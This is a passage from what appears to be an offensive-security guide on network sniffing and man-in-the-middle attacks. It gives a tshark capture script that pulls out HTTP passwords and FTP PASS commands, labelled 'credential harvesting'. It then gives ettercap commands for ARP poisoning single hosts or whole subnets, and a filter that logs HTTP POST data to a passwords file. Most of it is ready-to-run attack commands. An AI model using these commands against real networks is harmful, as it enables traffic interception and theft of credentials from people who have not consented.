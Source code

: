 **Documentation**: Advanced Wireshark filtering for targeted packet analysis and credential harvesting.
**Limitations**: Encrypted traffic requires decryption keys; modern protocols use encryption by default.

### Packet Capture and Analysis Scripts
```bash
#!/bin/bash
# capture_analysis.sh - Automated packet capture and analysis

INTERFACE="eth0"
CAPTURE_FILE="capture_$(date +%Y%m%d_%H%M%S).pcap"
DURATION=300  # 5 minutes

# Start packet capture
echo "[+] Starting packet capture on $INTERFACE for $DURATION seconds"
tshark -i $INTERFACE -a duration:$DURATION -w $CAPTURE_FILE

# Analyze captured traffic
echo "[+] Analyzing captured traffic..."
echo "HTTP Traffic:"
tshark -r $CAPTURE_FILE -Y "http" -T fields -e ip.src -e ip.dst -e http.host -e http.request.uri

echo "DNS Queries:"
tshark -r $CAPTURE_FILE -Y "dns.qry.type == 1" -T fields -e ip.src -e dns.qry.name

echo "Credentials Found:"
tshark -r $CAPTURE_FILE -Y 'http contains "password" or ftp.request.command == "PASS"' -T fields -e ip.src -e frame.protocols
```

**Documentation**: Automated network traffic capture and analysis for security assessment.
**Limitations**: Requires network access; encrypted traffic limits analysis; may miss advanced evasion techniques.

## MITM Attack Implementation

### ARP Poisoning with Ettercap
```bash
# Basic ARP Poisoning
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//  # Target specific hosts
ettercap -T -M arp /192.168.1.1// /192.168.1.0/24//        # Target entire subnet
ettercap -T -M arp:remote -i eth0 /192.168.1.1// /192.168.1.100//  # Specify interface

# ARP Poisoning with Filters
ettercap -T -M arp -F password_filter.ef /192.168.1.1// /192.168.1.100//

# Ettercap Filter Example (password_filter.ef)
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "POST")) {
      log(DATA.data, "passwords.log");
   }
}
```
